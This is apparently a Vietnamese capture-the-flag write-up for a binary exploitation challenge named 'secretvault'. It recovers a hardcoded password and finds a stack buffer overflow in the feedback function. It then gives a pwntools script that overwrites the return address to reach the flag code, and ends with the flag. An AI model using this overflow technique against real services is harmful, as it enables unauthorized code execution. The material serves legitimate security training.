







# secretvault





Đầu tiên chương trình yêu cầu nhập `master password` vì vậy mình phải vào ida xem password là gì?



Vậy hàm kiểm tra password khá đơn giản, ta đã lấy được password là : `Sup3rS3cr3tM@st3r!`



Sau khi nhập xong thì chương trình cho ta lựa chọn các lựa chọn từ menu. Lúc này mình xem các hàm trong ida thì đã tìm được lỗi ở trong hàm của lựa chọn `4. Leave feedback`:



Ta thấy ở đây `v17` chỉ được khởi tạo `72 bytes` nhưng ta có thể đọc tận `512 bytes` => `bof`. Do `canary` tắt nên ta có thể ghi đè giá trị `ret addr`.



Để ý thì trong binary ta có 1 hàm `Getflag` tuy nhiên chương trình còn kiểm tra điều kiện gì đó. Nhưng ta có thể cho chương trình nhảy luôn vào trong lệnh if và lấy `flag`

## Solve script

```python

#!/usr/bin/python3

from pwn import *

#p = process("./secretvault")
p = remote("node-1.mcsc.space",12773)
# p = gdb.debug("./secretvault",'''
#               b* 0x0000000000402330
#               c
#               ''')

p.sendlineafter("Enter master password: ",b'Sup3rS3cr3tM@st3r!')

p.sendlineafter("Choice: ",b'4')
p.sendlineafter("Rating (1-5): ",b'4')

payload = b'a'*72
payload += p64(0x0000000000401D3B)

p.sendlineafter("Your detailed feedback: ",payload)

p.interactive()


```



**FLAG**: `esch{uninitialized-memory-leaks-nova-falcon-4433}`